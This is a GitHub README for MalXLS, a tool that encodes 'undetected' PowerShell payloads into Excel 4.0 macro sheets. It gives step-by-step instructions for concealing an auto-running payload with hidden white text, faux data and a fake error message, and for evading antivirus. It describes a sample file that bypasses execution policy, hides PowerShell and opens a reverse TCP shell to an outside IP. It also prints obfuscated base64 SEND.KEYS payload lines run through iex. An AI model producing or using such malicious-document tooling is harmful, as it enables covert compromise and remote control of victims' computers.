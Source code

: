 # Disclaimer

MalXLS is provided "as is", without warranty of any kind. The author of the project takes no responsibility for the abuse of anything provided and presented in the repository. Illegal usage of MalXLS is strictly prohibited.

# MalXLS

MalXLS is a quick way to encode undetected PowerShell payloads for Excel 4.0 Macro sheets.

Note that antivirus software may block the execution of certain PowerShell scripts even if the payload itself is undetected. It is the user's responsibility to work around the antivirus or disable it through other means.

### Why use the XLS format instead of XLSM? Why use Excel 4.0 Macros instead of VBA?

Read this blog post: https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

The important part starts at the ``Support for XLM`` section.

It is also not immediately obvious that the file contains a macro if it is saved under ``XLS`` instead of ``XLSM`` until the warning is displayed when opening the file.

## Getting Started

- Create a new Excel workbook and save it under the XLS format, then insert a new MS Excel 4.0 Macro sheet.
- (Optional) Delete the default sheet and rename the macro sheet to something less obvious
- Insert your payload into the macro sheet (preferrably in a random cell), then rename the first cell of the payload to ``Auto_Open`` to run the payload automatically when opening the file
  - For an example, see the provided ``Book1.xls`` file. It does not contain a cell named ``Auto_Open``
  - See [Usage](#usage) for instructions on generating a payload
- (Optional) Change the text color to ``WHITE`` and make sure the cells are the same size as regular cells
- Activate cell ``A1`` so that it is not immediately obvious where the payload is when opening the file
- (Optional) Insert some faux data at the beginning of the sheet
- Remove identifying information from the file (File > Info > Check for Issues > Inspect Document)

<details>
  <summary>Book1.xls breakdown</summary>    
  <br /><img src="https://raw.githubusercontent.com/davidcristian/MalXLS/master/Excel%20File%20Examples/virus_scan.png" alt="A screenshot of the virus scan results from multiple engines" /><br /><p><a href="https://www.virustotal.com/gui/file/e5f25bb70bac14f8909fce9385a55557955b9bfa2a26d8be42ff5208f1488127/detection">Scan results</a></p><br /><img src="https://raw.githubusercontent.com/davidcristian/MalXLS/master/breakdown.png" alt="A screenshot of the commands (numbered) inside Book1.xls" />
  <p>
    
    1.  Disable all warnings and errors so that the macro never breaks
    2.  Open PowerShell in a minimized state (keystrokes still go through)
    3.  Wait 1 second
    4.  Hide the PowerShell window
    5.  Continuation of 4.
    6.  Wait 1 second
    7.  Open a 32bit PowerShell session if the current one is 64bit
    8.  Wait 1 second
    9.  Set the execution policy to bypass for the current session so that any script may run
    10. Wait 1 second
    11. Start a reverse TCP connection to 192.168.144.134 on port 4242 (Note that this is blocked by Windows Defender)
    12. Continuation of 11.
    13. Continuation of 11.
    14. Wait 1 second
    15. Activate the Excel window
    16. Display a faux error message about there being an error when opening the file
    17. Close Excel (no warnings will be shown due to 1.)
  </p>
</details>

### Prerequisites

[.NET Framework 4.8](https://dotnet.microsoft.com/download/dotnet-framework/net48) is required to run the binary that computes payloads.

If you are using Windows 10 and have the May 2019 Update (1903) you are good to go, otherwise you need to install the runtime.

### Usage

The payload generator can be downloaded from the [Releases](https://github.com/davidcristian/MalXLS/releases) page. The source code is available in the ``Generate Payload`` directory.

```
ComputePayload
Usage: .\ComputePayload.exe [OPTION]... [FILE]... [-C]
  -e    Compress a file using GZip and encode it into a base64 string
  -f    Fix the bad characters in a file (use on one-liners)
  -c    Copy the generated commands into the clipboard
```
Example:

```
.\ComputePayload.exe -e .\clear_history.ps1 -c 
=SEND.KEYS("$b=""H4sIAAAAAAAEAJWQQWsCMRCF7wv{+}h0Es7h42h14KggeRWkvVLkbwID2k7sgGshnZjMoi/vcm7hZb8NDeMpm8L{+}{+}9XqGOmMklqtxoizCEuGcPxkDqh/gFOZ1TfjAI6fMIpDZo2dRjsqztAeEmTJJO1In0zst/ExM4dyKAsUFVpVNyHKbwboWO00xx0XxzU7zvWZNNxFQ7pqqWAeefeRAELcASSzpi{+}spYNraY9n{+}EtIQm4hAW"; TRUE)
=SEND.KEYS("eGoxq3qPMNEh6D88BdrlR7xmGy42c72tyNGORUYnrGSBxohM{+}uocGQzcmed{+}DAZXaauMfYsXQOPwXmvfrjeydt60WOLO4DYYEyPnsPw0tefNSOVrzUWmKtbKLFSJcbdVrLXN6eTEhKrSdZOr0XsrIdHmb1g7zwvHtdIc9x/Okyd4vPSTO4l9C1/sVYH1SwIAAA=="";nal no New-Object -F;iex {(}no IO.StreamReader{(}no "; TRUE)
=SEND.KEYS("IO.Compression.GZipStream{(}{(}no IO.MemoryStream -A @{(},{[}Convert{]}::FromBase64String{(}$b{)}{)}{)},{[}IO.Compression.CompressionMode{]}::Decompress{)}{)}{)}.ReadToEnd{(}{)}~{NUMLOCK}"; TRUE)
```

## Known Issues

- Sending large commands requires multiple wait instructions (usually every 3 cells). The cause for this is unknown because the ``TRUE`` switch for ``SEND.KEYS`` should wait for the keystrokes to be processed before going to the next instruction, which is not always the case and results in mixed keystrokes and a broken payload.

## License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details

Files belonging to other authors have their license in the same directory as them.

## Acknowledgments

* PowerShell decoding, decompression, execution, hide_window.ps1, and assure_32bit.ps1 snippets from MaMe82's [helper.js](https://github.com/RoganDawes/P4wnP1_aloa/blob/master/dist/HIDScripts/helper.js) file for the [P4wnP1 A.L.O.A.
](https://github.com/RoganDawes/P4wnP1_aloa)
* PowerShell clear_history.ps1 script from [here](https://stackoverflow.com/a/38807689)
* PowerShell reverse_shell.ps1 script from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) (second one)
* [This](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf) excellent book
